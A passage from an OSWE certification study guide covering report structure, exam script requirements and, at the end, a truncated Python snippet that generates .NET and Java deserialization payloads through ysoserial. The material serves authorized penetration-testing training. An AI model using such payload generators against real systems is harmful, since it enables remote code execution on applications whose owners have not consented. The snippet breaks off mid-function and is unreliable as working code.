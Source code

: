 ```markdown
### Single-Click Exploit Script
- Complete automated exploitation code
- Usage instructions and parameters
- Error handling and reliability features

## Machine 2: [Repeat Structure]

## Appendix
- Additional findings not required for objectives
- Recommendations for remediation
```

**Report Writing Best Practices**[16][18]

- **Include methodology explanations** for vulnerability discovery process
- **Document code analysis steps** with specific file references and line numbers
- **Provide complete exploitation paths** from initial access to flag retrieval
- **Screenshot flag contents** in both web interface and Burp Suite
- **Test all scripts** on clean exam machines before submission
- **Use professional language** appropriate for client-facing deliverables

### Common Failure Points to Avoid

**Script Requirements Violations**[15]

Recent failure analysis reveals critical requirements:
- Scripts **must be fully automated** without manual intervention
- **Cannot hardcode credentials** or session tokens discovered during manual testing
- **Must handle dynamic values** like CSRF tokens, session IDs, and nonces
- **Should demonstrate actual code execution** rather than just reading static files

**Report Deficiencies**[15][17]

- Insufficient vulnerability descriptions lacking technical detail
- Missing screenshots of required proof elements
- Incomplete exploitation methodology documentation  
- Scripts that don't function independently on clean systems

## Advanced Troubleshooting and Debugging

### Complex Vulnerability Analysis

**Deserialization Exploit Development**[29][24]

Modern OSWE scenarios frequently involve serialization vulnerabilities across multiple platforms:

```python
# .NET Binary Formatter exploitation
def generate_dotnet_payload(command):
    """Generate BinaryFormatter deserialization payload"""
    import base64
    # Use ysoserial.net for payload generation
    payload = subprocess.check_output([
        'mono', 'ysoserial.exe', 
        '-f', 'BinaryFormatter',
        '-g', 'WindowsIdentity',
        '-c', command
    ])
    return base64.b64encode(payload).decode()

# Java deserialization with commons-collections
def craft_java_payload(command):
    """Craft Java deserialization payload"""
    # Generate with ysoserial
    payload = subprocess.check_output([
        'java', '-jar', 'ysoserial.jar',
```